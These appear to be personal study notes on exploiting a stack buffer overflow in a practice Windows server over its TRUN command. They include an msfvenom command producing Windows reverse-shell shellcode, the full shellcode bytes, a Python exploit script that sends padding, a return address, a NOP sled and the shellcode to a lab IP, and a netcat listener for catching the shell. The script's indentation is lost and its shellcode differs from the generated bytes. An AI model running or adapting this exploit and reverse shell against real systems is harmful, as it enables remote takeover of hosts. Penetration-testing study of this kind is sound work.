

# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.205.128 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
-p is for payload
exitfunc = thread for exploit to be more stable
-f for file type and export that into c
-a for architecture
-b for bad characters
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] =
"\xdb\xc7\xba\x63\xc8\x3b\xcc\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x52\x31\x53\x17\x03\x53\x17\x83\xa0\xcc\xd9\x39\xda\x25\x9f"
"\xc2\x22\xb6\xc0\x4b\xc7\x87\xc0\x28\x8c\xb8\xf0\x3b\xc0\x34"
"\x7a\x69\xf0\xcf\x0e\xa6\xf7\x78\xa4\x90\x36\x78\x95\xe1\x59"
"\xfa\xe4\x35\xb9\xc3\x26\x48\xb8\x04\x5a\xa1\xe8\xdd\x10\x14"
"\x1c\x69\x6c\xa5\x97\x21\x60\xad\x44\xf1\x83\x9c\xdb\x89\xdd"
"\x3e\xda\x5e\x56\x77\xc4\x83\x53\xc1\x7f\x77\x2f\xd0\xa9\x49"
"\xd0\x7f\x94\x65\x23\x81\xd1\x42\xdc\xf4\x2b\xb1\x61\x0f\xe8"
"\xcb\xbd\x9a\xea\x6c\x35\x3c\xd6\x8d\x9a\xdb\x9d\x82\x57\xaf"
"\xf9\x86\x66\x7c\x72\xb2\xe3\x83\x54\x32\xb7\xa7\x70\x1e\x63"
"\xc9\x21\xfa\xc2\xf6\x31\xa5\xbb\x52\x3a\x48\xaf\xee\x61\x05"
"\x1c\xc3\x99\xd5\x0a\x54\xea\xe7\x95\xce\x64\x44\x5d\xc9\x73"
"\xab\x74\xad\xeb\x52\x77\xce\x22\x91\x23\x9e\x5c\x30\x4c\x75"
"\x9c\xbd\x99\xda\xcc\x11\x72\x9b\xbc\xd1\x22\x73\xd6\xdd\x1d"
"\x63\xd9\x37\x36\x0e\x20\xd0\xf9\x67\xe7\xa0\x92\x75\xf7\xb1"
"\x3e\xf3\x11\xdb\xae\x55\x8a\x74\x56\xfc\x40\xe4\x97\x2a\x2d"
"\x26\x13\xd9\xd2\xe9\xd4\x94\xc0\x9e\x14\xe3\xba\x09\x2a\xd9"
"\xd2\xd6\xb9\x86\x22\x90\xa1\x10\x75\xf5\x14\x69\x13\xeb\x0f"
"\xc3\x01\xf6\xd6\x2c\x81\x2d\x2b\xb2\x08\xa3\x17\x90\x1a\x7d"
"\x97\x9c\x4e\xd1\xce\x4a\x38\x97\xb8\x3c\x92\x41\x16\x97\x72"
"\x17\x54\x28\x04\x18\xb1\xde\xe8\xa9\x6c\xa7\x17\x05\xf9\x2f"
"\x60\x7b\x99\xd0\xbb\x3f\xb9\x32\x69\x4a\x52\xeb\xf8\xf7\x3f"
"\x0c\xd7\x34\x46\x8f\xdd\xc4\xbd\x8f\x94\xc1\xfa\x17\x45\xb8"
"\x93\xfd\x69\x6f\x93\xd7";
Always note the size of the Payload cuz we would be working in Limited space.
┌──(root㉿kali)-[/home/kali]
└─#gedit fuzz_2.py
#!/usr/bin/env python2
import sys,socket
print("running")
overflow = (
"\xda\xc5\xd9\x74\x24\xf4\xbf\xa9\xa7\x52\x5f\x5d\x2b\xc9\xb1"
"\x52\x31\x7d\x17\x03\x7d\x17\x83\x44\x5b\xb0\xaa\x6a\x4c\xb7"
"\x55\x92\x8d\xd8\xdc\x77\xbc\xd8\xbb\xfc\xef\xe8\xc8\x50\x1c"
"\x82\x9d\x40\x97\xe6\x09\x67\x10\x4c\x6c\x46\xa1\xfd\x4c\xc9"
"\x21\xfc\x80\x29\x1b\xcf\xd4\x28\x5c\x32\x14\x78\x35\x38\x8b"
"\x6c\x32\x74\x10\x07\x08\x98\x10\xf4\xd9\x9b\x31\xab\x52\xc2"
"\x91\x4a\xb6\x7e\x98\x54\xdb\xbb\x52\xef\x2f\x37\x65\x39\x7e"
"\xb8\xca\x04\x4e\x4b\x12\x41\x69\xb4\x61\xbb\x89\x49\x72\x78"
"\xf3\x95\xf7\x9a\x53\x5d\xaf\x46\x65\xb2\x36\x0d\x69\x7f\x3c"
"\x49\x6e\x7e\x91\xe2\x8a\x0b\x14\x24\x1b\x4f\x33\xe0\x47\x0b"
"\x5a\xb1\x2d\xfa\x63\xa1\x8d\xa3\xc1\xaa\x20\xb7\x7b\xf1\x2c"
"\x74\xb6\x09\xad\x12\xc1\x7a\x9f\xbd\x79\x14\x93\x36\xa4\xe3"
"\xd4\x6c\x10\x7b\x2b\x8f\x61\x52\xe8\xdb\x31\xcc\xd9\x63\xda"
"\x0c\xe5\xb1\x4d\x5c\x49\x6a\x2e\x0c\x29\xda\xc6\x46\xa6\x05"
"\xf6\x69\x6c\x2e\x9d\x90\xe7\x91\xca\x57\x77\x79\x09\x67\x69"
"\x26\x84\x81\xe3\xc6\xc0\x1a\x9c\x7f\x49\xd0\x3d\x7f\x47\x9d"
"\x7e\x0b\x64\x62\x30\xfc\x01\x70\xa5\x0c\x5c\x2a\x60\x12\x4a"
"\x42\xee\x81\x11\x92\x79\xba\x8d\xc5\x2e\x0c\xc4\x83\xc2\x37"
"\x7e\xb1\x1e\xa1\xb9\x71\xc5\x12\x47\x78\x88\x2f\x63\x6a\x54"
"\xaf\x2f\xde\x08\xe6\xf9\x88\xee\x50\x48\x62\xb9\x0f\x02\xe2"
"\x3c\x7c\x95\x74\x41\xa9\x63\x98\xf0\x04\x32\xa7\x3d\xc1\xb2"
"\xd0\x23\x71\x3c\x0b\xe0\x91\xdf\x99\x1d\x3a\x46\x48\x9c\x27"
"\x79\xa7\xe3\x51\xfa\x4d\x9c\xa5\xe2\x24\x99\xe2\xa4\xd5\xd3"
"\x7b\x41\xd9\x40\x7b\x40")
shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow
try:
s = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
s.connect(('192.168.205.135',9999))
s.send(('TRUN /.:/' + shellcode))
s.close()
except:
print "Error Connnecting To The Server"
sys.exit()
Before we are submitting the overflow we are inserting something called as Knobs (i.e. knobs are padding essentially)
And they stand for no operation (i.e. knob sled)
Kali Linux (i.e. 2nd terminal)
nc -nvlp 4444
but didn't got the reverse shell cuz of this issue
python is actually defaulted to python3 in kali linux
try changing #!/bin/python to #!/usr/bin/env python2
